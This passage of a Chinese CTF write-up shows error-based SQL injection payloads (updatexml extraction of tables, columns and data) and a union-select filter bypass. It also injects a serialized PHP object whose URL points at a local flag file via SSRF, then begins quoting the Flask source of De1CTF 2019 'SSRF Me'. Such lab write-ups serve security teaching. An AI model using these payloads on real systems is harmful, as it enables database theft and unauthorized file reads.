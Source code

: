 ```php
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

可以发现输入的 `blog` 处存在 SSRF，并且对 `blog` 字符串的模式做了限制。

先随便注册一个账号，查看账号信息会访问到 `view.php?no=1`，这里存在 SQL 注入。

```
no=1 and updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'),1)--

no=1 and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users'),'~'),1)--

no=1 and updatexml(1,concat('~',(select data from users),'~'),1)--
```

可以发现存在 `no,username,passwd,data` 这些字段，并且 `data` 字段存放了序列化的 User 对象。

那么我们可以构造一个 `User` 使得他的 `blog` 指向 flag 文件。这样就可以绕过 `user.php` 的检查。

构造序列化对象：

```php
$a = new UserInfo('merc','10','file:///var/www/html/flag.php');
echo serialize($a);
```

另外 `union select` 被过滤，需要注释绕过。

```
no=-1'union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"merc";s:3:"age";i:10;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'--
```

## \[De1CTF 2019\] SSRF Me

```python
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
```